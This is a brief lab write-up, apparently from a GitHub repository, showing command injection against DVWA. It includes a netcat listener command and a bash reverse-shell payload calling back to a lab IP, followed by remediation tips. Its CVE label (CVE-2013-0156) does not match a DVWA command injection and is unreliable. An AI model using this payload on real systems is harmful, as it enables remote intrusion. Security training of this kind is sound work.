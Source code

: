 # Exploit 2: Command Injection (CVE-2013-0156)

### 🔎 Vulnerability Description
Unsanitized input in DVWA allowed arbitrary system command execution.

---

### ⚡ Steps to Exploit
1. Set DVWA security level to **Low**.  
2. Start a Netcat listener:
   ```bash
   nc -lvnp 1234
````

3. Inject malicious payload into the web input field:

   ```bash
   ;bash -c "bash -i >& /dev/tcp/192.168.56.105/1234 0>&1"
   ```
4. Attacker gained reverse shell access as `nobody` user.

---

### 🛡️ Remediation

* Sanitize all user inputs.
* Block dangerous characters (`;`, `&`, `|`).
* Enforce least privilege on web processes.
* Use parameterized queries and secure coding practices.

````

---
